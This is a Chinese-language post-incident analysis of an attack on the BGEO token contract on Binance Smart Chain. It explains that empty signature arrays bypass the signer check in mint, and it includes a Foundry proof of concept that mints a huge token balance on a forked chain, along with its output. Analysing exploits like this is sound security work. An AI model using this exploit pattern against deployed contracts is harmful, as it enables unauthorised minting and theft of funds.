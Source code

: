 # Binance BGEO Attack Analysis


参数检查不严格的锅

<!--more-->

## 漏洞分析

攻击发生在https://bscscan.com/tx/0x9f4ef3cc55b016ea6b867807a09f80d1b2e36f6cd6fccfaf0182f46060332c57

被攻击合约: [0xc342774492b54ce5F8ac662113ED702Fc1b34972](https://bscscan.com/address/0xc342774492b54ce5F8ac662113ED702Fc1b34972#code)

合约的`mint`定义如下:

```solidity
    function mint(
        uint256 _amount,
        string memory _txHash,
        address _receiver,
        bytes32[] memory _r,
        bytes32[] memory _s,
        uint8[] memory _v
    ) external isSigned(_txHash, _amount, _r, _s, _v) returns (bool) {
        require(!txHashes[_txHash], "tx-hash-used");
        txHashes[_txHash] = true;

        _mint(_receiver, _amount);
        return true;
    }
```

其中的`_mint()`如下:

```solidity
    function _mint(address account, uint256 amount) internal {
        require(account != address(0), "BEP20: mint to the zero address");

        _totalSupply = _totalSupply.add(amount);
        _balances[account] = _balances[account].add(amount);
        emit Transfer(address(0), account, amount);
    }

```

在`mint()`函数执行了2个检查, 通过检查便可调用`_mint()`增加msg.sender的余额

1. 检查1: 

   ```solidity
   require(!txHashes[_txHash], "tx-hash-used");
           txHashes[_txHash] = true;
   ```

   检查传入的_txHash是否被使用过, 避免同一个__txHash被使用多次.

2. 检查2:

   ```solidity
   isSigned(_txHash, _amount, _r, _s, _v)
   ```

   这是一个modifier, 用于检查 \_txHash和\_amout传入参数是否被正确签名:

   ```solidity
       modifier isSigned(
           string memory _txHash,
           uint256 _amount,
           bytes32[] memory _r,
           bytes32[] memory _s,
           uint8[] memory _v
       ) {
           require(checkSignParams(_r, _s, _v), "bad-sign-params");
           bytes32 _hash = keccak256(
               abi.encodePacked(bsc, msg.sender, _txHash, _amount)
           );
           address[] memory _signers = new address[](_r.length);
           for (uint8 i = 0; i < _r.length; i++) {
               _signers[i] = ecrecover(_hash, _v[i], _r[i], _s[i]);
           }
   
           require(isSigners(_signers), "bad-signers");
           _;
       }
       
      function isSigners(address[] memory _signers) public view returns (bool) {
           for (uint8 i = 0; i < _signers.length; i++) {
               if (!_containsSigner(_signers[i])) {
                   return false;
               }
           }
           return true;
       }
       function checkSignParams(
           bytes32[] memory _r,
           bytes32[] memory _s,
           uint8[] memory _v
       ) private view returns (bool) {
           return (_r.length == _s.length) && (_s.length == _v.length);
       }
   ```

   从上面的代码可以看出, 验证签名的逻辑如下:
   对于参数\_txHash和\_amount, 有一组椭圆曲线签名对应的(r, s, v), 通过`ecrecover`函数恢复出签名者的公钥(地址), 并检查签名地址是否包含在预定于的合法签名者列表中(可以理解为白名单)

   可以将代码简化为:

   ```python
   def isSigned(message, r[],s[],v[]){
   		allSigners = recovery_signer_addresses_from_r_s_v_array();
   		for (s in allSigners){
   			if (s not in whiteList){
   				return false;
   			}
   		}
   		return true
   }
   ```

   这里有两个问题需要注意: 一是默认返回不应该为true, 而应该默认返回false.  二是没有注意数组可能为空, 但数组长度为0时, 代码直接返回true了, 这就绕过了`isSigned`

   ```solidity
      function isSigners(address[] memory _signers) public view returns (bool) {
           // 问题出在这里： 传入的数组为空时，长度为0， 直接返回true了
           for (uint8 i = 0; i < _signers.length; i++) {
               if (!_containsSigner(_signers[i])) {
                   return false;
               }
           }
           return true;
       }
   ```

   



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

interface IBGEO20 {
    function balanceOf(address account) external view returns (uint256);

    function decimals() external view returns (uint8);

    function mint(
        uint256 _amount,
        string memory _txHash,
        address _receiver,
        bytes32[] memory _r,
        bytes32[] memory _s,
        uint8[] memory _v
    ) external returns (bool);
}


IBGEO20 constant BGEO = IBGEO20(0xc342774492b54ce5F8ac662113ED702Fc1b34972);

contract Hack is Test {
    function setUp() public {
        vm.createSelectFork("theNet", 22315679); //BSC
    }

    function testPoc() public {
        BGEO.mint(
            99999999999999999 * 10 ** 18,
            "abcdefg",
            address(this),
            new bytes32[](0),
            new bytes32[](0),
            new uint8[](0)
        );

        emit log_named_decimal_uint(
            "BGEO i have",
            BGEO.balanceOf(address(this)),
            BGEO.decimals()
        );
    }
}

```

输出:

```
[PASS] testPoc() (gas: 64559)
Logs:
  BGEO i have: 99999999999999999.000000000000000000
```

​     


